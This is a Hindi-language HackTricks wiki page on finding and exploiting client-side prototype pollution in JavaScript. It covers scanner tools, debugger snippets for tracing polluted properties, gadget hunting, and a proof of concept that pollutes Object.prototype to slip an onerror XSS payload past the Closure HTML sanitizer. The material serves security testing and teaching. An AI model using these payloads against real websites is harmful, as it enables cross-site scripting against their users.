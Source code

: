 # क्लाइंट साइड प्रोटोटाइप प्रदूषण

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## स्वचालित उपकरणों का उपयोग करके खोज करना

उपकरण [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **और** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) का उपयोग **प्रोटोटाइप प्रदूषण कमजोरियों** को **खोजने** के लिए किया जा सकता है।

इसके अलावा, आप **ब्राउज़र एक्सटेंशन** [**PPScan**](https://github.com/msrkp/PPScan) का उपयोग करके **स्वचालित रूप से** उन **पृष्ठों** को **स्कैन** कर सकते हैं जिन्हें आप **प्रोटोटाइप प्रदूषण कमजोरियों** के लिए **एक्सेस** करते हैं।

### यह पता लगाना कि एक प्रॉपर्टी कहाँ उपयोग की जाती है <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Prototype Pollution के मूल कारण का पता लगाना <a href="#id-5530" id="id-5530"></a>

एक बार जब किसी भी उपकरण द्वारा एक प्रोटोटाइप प्रदूषण की भेद्यता की पहचान की गई हो, और यदि कोड अत्यधिक जटिल नहीं है, तो आप Chrome Developer Tools में `location.hash`, `decodeURIComponent`, या `location.search` जैसे कीवर्ड्स की खोज करके भेद्यता को ढूंढ सकते हैं। यह दृष्टिकोण आपको JavaScript कोड के संवेदनशील भाग को सटीक रूप से पहचानने की अनुमति देता है।

बड़े और अधिक जटिल कोडबेस के लिए, संवेदनशील कोड का पता लगाने के लिए एक सीधा तरीका निम्नलिखित चरणों में शामिल है:

1. एक उपकरण का उपयोग करें ताकि एक भेद्यता की पहचान की जा सके और एक पेलोड प्राप्त किया जा सके जो कंस्ट्रक्टर में एक प्रॉपर्टी सेट करने के लिए डिज़ाइन किया गया हो। ppmap द्वारा प्रदान किया गया एक उदाहरण इस प्रकार हो सकता है: `constructor[prototype][ppmap]=reserved`।
2. उस पहले JavaScript कोड की पंक्ति पर एक ब्रेकपॉइंट सेट करें जो पृष्ठ पर निष्पादित होगा। पेलोड के साथ पृष्ठ को रिफ्रेश करें, इस ब्रेकपॉइंट पर निष्पादन को रोकते हुए।
3. जब JavaScript निष्पादन रुका हो, तो JS कंसोल में निम्नलिखित स्क्रिप्ट निष्पादित करें। यह स्क्रिप्ट संकेत देगी जब 'ppmap' प्रॉपर्टी बनाई जाती है, जिससे इसके मूल का पता लगाने में मदद मिलेगी:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. **Sources** टैब पर वापस जाएं और "Resume script execution" का चयन करें। JavaScript निष्पादन जारी रखेगा, और 'ppmap' प्रॉपर्टी अपेक्षित रूप से प्रदूषित हो जाएगी। प्रदान किए गए स्निपेट का उपयोग 'ppmap' प्रॉपर्टी के प्रदूषण के सटीक स्थान की पहचान करने में मदद करता है। **Call Stack** की जांच करके, प्रदूषण होने वाले विभिन्न स्टैक्स को देखा जा सकता है।

किस स्टैक की जांच करनी है, यह तय करते समय, अक्सर JavaScript लाइब्रेरी फ़ाइलों से संबंधित स्टैक्स को लक्षित करना उपयोगी होता है, क्योंकि प्रोटोटाइप प्रदूषण अक्सर इन लाइब्रेरीज़ के भीतर होता है। लाइब्रेरी फ़ाइलों से इसके जुड़ाव की जांच करके प्रासंगिक स्टैक की पहचान करें (जो दाईं ओर दिखाई देता है, मार्गदर्शन के लिए प्रदान की गई छवि के समान)। कई स्टैक्स के मामलों में, जैसे कि पंक्तियों 4 और 6 पर, तार्किक विकल्प पंक्ति 4 का स्टैक है, क्योंकि यह प्रदूषण की प्रारंभिक घटना का प्रतिनिधित्व करता है और इस प्रकार भेद्यता का मूल कारण है। स्टैक पर क्लिक करने से आपको संवेदनशील कोड पर ले जाया जाएगा।

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## स्क्रिप्ट गैजेट्स खोजना

गैजेट वह **कोड है जिसका दुरुपयोग एक PP भेद्यता के खोजे जाने पर किया जाएगा**।

यदि एप्लिकेशन सरल है, तो हम **`srcdoc/innerHTML/iframe/createElement`** जैसे **कीवर्ड्स** के लिए **खोज** कर सकते हैं और स्रोत कोड की समीक्षा कर सकते हैं और जांच सकते हैं कि क्या यह **जावास्क्रिप्ट निष्पादन की ओर ले जाता है**। कभी-कभी, उल्लेखित तकनीकें गैजेट्स को बिल्कुल नहीं खोज सकती हैं। उस मामले में, शुद्ध स्रोत कोड समीक्षा कुछ अच्छे गैजेट्स का खुलासा करती है जैसे कि नीचे दिया गया उदाहरण।

### उदाहरण: मिथिल लाइब्रेरी कोड में PP गैजेट खोजना

इस लेख को देखें: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## संवेदनशील लाइब्रेरी के लिए पेलोड्स का पुनः संकलन

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## PP के माध्यम से HTML Sanitizers बायपास

[**यह शोध**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) कुछ HTML sanitizers लाइब्रेरी द्वारा प्रदान की गई **सैनिटाइजेशन को बायपास करने के लिए PP गैजेट्स** दिखाता है:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## संदर्भ

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
